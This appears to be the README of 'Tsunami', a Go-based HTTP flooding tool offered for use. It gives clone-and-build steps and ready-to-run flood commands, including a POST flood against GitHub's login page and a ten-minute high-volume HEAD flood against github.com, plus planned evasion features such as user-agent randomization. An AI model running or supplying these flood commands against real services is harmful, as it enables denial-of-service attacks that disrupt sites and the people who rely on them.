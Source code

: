 # Tsunami
An advanced HTTP flooder written in Golang

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://example.com --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Features
- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__

## Examples
### Low volume POST flood lasting forever
```bash
./tsunami -w 2 "https://github.com/login" POST "username=Ammar&password=g1thuB123"
```
## High volume HEAD flood lasting for 10 minutes
```bash
./tsunami -w 100 -s 600 "https://github.com/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - User Agent randomization
 - All HTTP methods
 - Custom headers
 - Pretty display of attack stats
 - ???